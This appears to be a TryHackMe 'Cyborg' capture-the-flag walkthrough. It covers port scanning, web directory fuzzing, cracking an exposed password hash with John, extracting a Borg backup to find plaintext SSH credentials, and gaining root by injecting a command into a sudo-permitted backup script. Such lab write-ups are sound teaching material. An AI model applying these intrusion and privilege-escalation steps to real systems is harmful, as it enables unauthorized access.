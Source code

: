 # Cyborg
![tryhackme_logo](https://user-images.githubusercontent.com/83867734/185771149-cb02c6f2-8476-4ab3-a626-cca8db0a08bf.png)

Difficulty: **Easy**

Compromise the machine and read the user.txt and root.txt.

Tags
--
* Brute Forcing 
* Hash Cracking 
* Borg Backup
* Linux Enumeration
* Sudoers file

Tools used
--
* nmap
* ffuf
* john

Machines
--
Attacker:
* Name: attacker_machine
* Operating System: Athena OS
* IP Address: 10.18.98.39

Victim:
* Name: victim_machine
* IP Address: 10.10.157.186
* Other information must be gathered during the attack

Phase 1: Enumeration
--
Let's use Nmap with `-g 53` argument for finding the port 80 as opened:
```
sudo nmap -sS -sC -sV 10.10.157.186 -p- -g 53 -vvv

<SNIP>
Initiating SYN Stealth Scan at 23:11
Scanning 10.10.157.186 [65535 ports]
Discovered open port 80/tcp on 10.10.157.186
Discovered open port 22/tcp on 10.10.157.186
<SNIP>
```
Let's visit the HTTP service by the browser and we get the Apache default page. Let's fuzz this website:
```
ffuf -u http://10.10.157.186/FFUF -H 'Host: 10.10.157.186' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko
/20100101 Firefox/91.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=
0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Sec-GPC: 1' -w /usr/share
/payloads/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FFUF

admin                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 76ms]
etc                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 60ms]
```
`etc` has two files: `passwd` and `squid.conf`. The first one contains:
```
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```
It seems to be cracked by John. The second one contains:
```
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```
Let's crack the hash above by John. Save this hash in the `music.hash` file and run:
```
john music.hash --wordlist=./rockyou.txt

<SNIP>
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
squidward        (music_archive)
<SNIP>
```
Let's keep `squidward` as possible password.

Phase 2: Foothold
--
By visiting the website, we can see also the `http://10.10.157.186/admin/admin.html` page showing the following message:
```
<SNIP>
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
<SNIP>
```
It could be also related to the files we found in `etc` web directory.

Let's download the `archive.tar` from the Download button inside the web page, and untar it. We get some files inside `home/field/dev/final_archive` directory. By reading `README`, we notice it is a Borg Backup repository.

Let's take some information about Borg: https://medium.com/swlh/backing-up-with-borg-c6f13d74dd6

Borg is a backup software allowing to encrypt files we backup. What we can try to do and recover the backup:
```
cd home/field/dev/final_archive

borg list ./
Enter passphrase for key /home/athena/Downloads/archive/home/field/dev/final_archive: <squidward>
music_archive                        Tue, 2020-12-29 15:00:38 [f789ddb6b0ec108d130d16adebf5713c29faf19c44cad5e1eeb8ba37277b1c82]

borg extract ./::music_archive
```
At this point we get a `home` directory. Let's search some useful information. We can get a note in `home/alex/Documents/note.txt` with the following content:
```
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```
Let's login by SSH with these credentials:
```
ssh 10.10.157.186 -l alex
```
After login, we can get immediately the user flag in `user.txt` file.

Phase 3: Privilege Escalation
--
Let's upload LinPEAS on this target server by SCP protocol from the attacker machine:
```
scp linpeas.sh alex@10.10.157.186:/home/alex/
```
Come back to the victim machine session and run LinPEAS script. While LinPEAS runs, we can open another SSH session and try to search of something useful. If we execute `sudo -l`, we get:
```bash
sudo -l

Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```
From the result we understand we can run `/etc/mp3backups/backup.sh` as `sudo` with `alex` user account. We need only to understand the content of `backup.sh`. Inside it, the interesting part is:
```bash
<SNIP>
while getopts c: flag
do
        case "${flag}" in 
                c) command=${OPTARG};;
        esac
done
<SNIP>
cmd=$($command)
echo $cmd
```
So we can execute:
```
sudo /etc/mp3backups/backup.sh -c 'cat /root/root.txt'
```
let's wait some minute and we get our root flag.